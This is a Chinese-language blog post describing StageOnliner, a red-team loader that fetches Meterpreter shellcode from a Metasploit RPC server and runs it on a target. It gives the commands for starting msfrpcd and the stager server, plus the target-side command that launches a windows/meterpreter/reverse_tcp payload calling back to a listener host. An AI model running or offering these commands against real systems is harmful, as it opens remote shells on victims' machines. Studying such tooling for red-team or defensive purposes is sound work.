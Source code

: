 PS：服务器可分离部署，StageOnliner可上线多台服务器


**在Metasploit Server上启动msfrpcd：**

```
rvn0xsy@MacBook-Pro ~> /opt/metasploit-framework/bin/msfrpcd -U msf -P msf -u /api/1.0/
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] URI: /api/1.0/
[*] MSGRPC backgrounding at 2019-09-14 18:41:14 +0800...
[*] MSGRPC background PID 50486
```


**在Stager Server上启动server.py：**

```
python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 4474 -S 192.168.117.1
```

![2019-09-24-21-15-54](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/bf5d68a74868a1320c46bae5854c080e.png)

**在目标机器上启动StageOnliner：**

```
C:\windows\system32\cmd.exe /c C:\www\StageOnliner-x86.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.117.1,LPORT=1122 -H 192.168.117.1 -P 4474
```


这个项目前身叫：Cooolis-ms，后来我不小心把源代码删除了，就重写了一下。

整个StageOnliner的工作模块分为三个：

- StageOnliner - Loader
- StageOnliner - Server
- StageOnliner - Metasploit RPC Server
- StageOnliner - Metasploit Console

客户端就叫Loader，运行后会向Server取回对应的模块Shellcode，其中Server接收请求后，会登录Metasploit RPC Server，调用API Method，RPC Server会把生成好的Shellcode回传，最终到达Loader，执行，上线到Console。

- Loader -> Server
- Server -> RPC Server
- RPC Server -> Server
- Server -> Loader
- Loader -> Console

其中，Server、RPC Server、Console都可以分离部署。

## StageOnliner - 实现

参考：https://metasploit.help.rapid7.com/docs/standard-api-methods-referenc

上面是Metasploit关于RPC服务的接口手册

Server代码：https://github.com/Rvn0xsy/Cooolis-ms/

目前可能无法正常工作了，本文不分享这类工具，只是交流想法。
